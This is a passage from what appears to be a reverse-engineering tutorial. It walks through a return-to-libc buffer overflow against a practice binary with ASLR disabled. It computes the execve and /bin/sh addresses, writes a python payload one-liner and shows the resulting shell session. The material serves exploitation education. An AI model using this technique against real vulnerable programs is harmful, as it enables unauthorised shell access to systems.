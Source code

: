     * **f7df3000-f7fa3000 r-xp 00000000 08:02 25694743                           /lib/i386-linux-gnu/libc-2.23.so** is the range. So, **libc_address = 0xf7df3000**. 

    * **execve_address** = **libc_address** + **execve_offset** => **execve_address = 0xf7ea37e0**. 

    * **binsh_address** = **libc_address** + **binsh_offset** => **binsh_address = 0xf7f4ea0b**. 

Note that we are able to use hardcoded addresses because **ASLR is disabled**. 

Now, we have all the required addresses. 

### c. How much junk to put in the payload?

This is a normal task. Use gdb to find it out. In the executable I am using, the junk length = **112** bytes. 

### d. Write the exploit!

Here is the final part. 

The exploit will look something like this. 

    <'a' - 112 bytes><execve's address><execve's return address><argument0 - address of /bin/sh ><argument1 - address of 0x00000000><argument2 - address of 0x00000000>

Let us put the payload into **exploit.txt**. 

    rev_eng_series/post_15}=)> python -c "print 'a' * 112 + '\xe0\x37\xea\xf7' + 'cccc' + '\x0b\xea\xf4\xf7' + '\x07\x80\x04\x08' + '\x07\x80\x04\x08'" >  exploit.txt

Look at the payload one more time. Make sure you understand it properly. 

That **cccc** is supposed to be execve's return address. 

### e. Exploit it!

    rev_eng_series/post_15}=)> cat exploit.txt - | ./defeat
    Before calling func

    whoami
    adwi

    ls
    defeat	defeat.c  exploit.txt  peda-session-defeat.txt
    
    who
    adwi     tty7         Mar  3 07:51 (:0)

Bingo! We got it!

We got a proper shell. Try it out a couple of times and understand the exploit properly. 


### f. Did the program SegFault?

In the previous post, we saw that the program SegFaulted when we exited from the shell. Let us see if the same happens now. 

    rev_eng_series/post_15}=)> cat exploit.txt - | ./defeat
    Before calling func
    whoami
    adwi

